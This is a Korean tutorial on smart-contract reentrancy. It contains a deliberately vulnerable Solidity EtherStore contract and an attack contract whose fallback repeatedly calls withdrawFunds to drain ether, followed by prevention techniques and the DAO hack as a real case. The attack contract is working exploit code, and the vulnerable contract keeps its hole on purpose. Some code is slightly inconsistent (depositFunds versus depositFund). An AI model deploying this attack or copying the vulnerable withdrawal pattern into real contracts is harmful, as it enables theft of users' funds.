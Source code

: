 # Reentrancy 재진입성
- fallback 함수를 악용한 취약점
- fallback 함수에서 다시 출금 함수(withdrawFunds)를 호출

보안 취약 컨트랙트 : [EtherStore.sol]()
```solidity
contract EtherStore {

    uint256 public withdrawalLimit = 1 ether;
    mapping(address => uint256) public lastWithdrawTime;
    mapping(address => uint256) public balances;

    //입금함수
    function depositFund() public payable {
        balances[msg.sender] += msg.value;
    }

    //출금함수
    function withdrawFunds (uint256 _weiToWithdraw) public {
        require(balances[msg.sender] >= _weiToWithdraw);
        require(_weiToWithdraw <= withdrawalLimit);
        require(block.timestamp >= lastWithdrawTime[msg.sender] + 1 weeks);

        //변경전
        // requrie(msg.sender.calㅣ.value(_weiToWithdraw)());

        //변경후 (0.6.4 버전 이후)
        (bool success, ) = msg.sender.call {value:_weiToWithdraw}("");
        require(success, "Transfer failed.");

        balances[msg.sender] -= _weiToWithdraw;
        lastWithdrawTime[msg.sender] = block.timestamp;
    }
}
```
공격 컨트랙트 : [Attack.sol]()

```solidity
import "contracts/Reentrancy/EtherStore.sol"; //경로 주의

contract Attack {
    EtherStore public etherStore;

    // 계약자 주소(공격 대상)로 etherStore 변수를 초기화
    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    } 

    //공격 함수
    function attackEtherStore() public payable {
        require(msg.value >= 1 ether);
        
        //계약자 주소(공격대상)에 1이더를 임금
        //1. depositFunds함수를 호출하여 1 이더 악성계약을 맺음
        etherStore.depositFunds{ value: 1 ether}();
        
        //출금함수 호출
        //2. 악성 계약은 withdrawFunds 출금 함수에 입금한 1이더를 요청.
        // 이전에 거래한 적이 없어 모든 조건을 통과함 (EtherStore.sol 출금조건)
        //3. 계약자가 컨트랙트라 호출 시 에러가 발생
        etherStore.withdrawFunds(1 ether);
    }
  
    function collectEther() public {
        payable(msg.sender).transfer((address(this)).balance);
    }

    //fallback function(종료시 호출)
    //4. 악성계약의 fallback 함수를 실행
    fallback() payable external{
        //계약자 주소(공격 대상)에 이더가 있을 경우 다시 출금 함수를 호출
        //5. 잔액을 비교하여 남아 있는지 확인
        if(address(etherStore).balance > 1 ether) {
            //6. 잔액이 있을 경우 다시 withdrawFunds 함수를 호출
            //7. 이 두번째 withdrawFunds 함수도 아직 실행 전이라 
            //1이더는 여전히 남아 있어 모든 요구 사항이 충족되어 모든 조건을 통과 (EtherStore.sol 출금조건)
            //8. fallback 함수는 잔액이 0 이더일 때 까지 계속 withdrawFunds 함수를 호출
            etherStore.withdrawFunds(1 ether);
        }
    }

}
```
<hr>

## 예방 기법

1. transfer 함수 호출 (권장 안함)
2. The checks-effects-interactions pattern (외부 호출 전에 값을 먼저 수정)
3. 뮤텍스 이용 (이전 호출을 종료한 후 다음 호출을 실행)
    > **뮤텍스 Mutex(Mutual Exclusion)**      
    임계구역에 들어갈 권한 검사   
    ex) `bool reEntrancyMutex = false;` 재진입 가능   
        `bool reEntrancyMutex = true;` false로 바뀔때 까지 재진입 불가능

보안 적용 컨트랙트 : [EtherStoreSecurity.sol]()
<hr>

## 실제 사례 : DAO

DAO는 이더리움 초기 개발에서 일어난 주요 해킹들 중 하나로, 당시 계약금은 1억 5000만 달러가 넘었고, 이로 인해 Ethereum Classic(ETC)이 만들어 졌음.   
DAO 사건으로 3,600,000ETH를 해킹당함


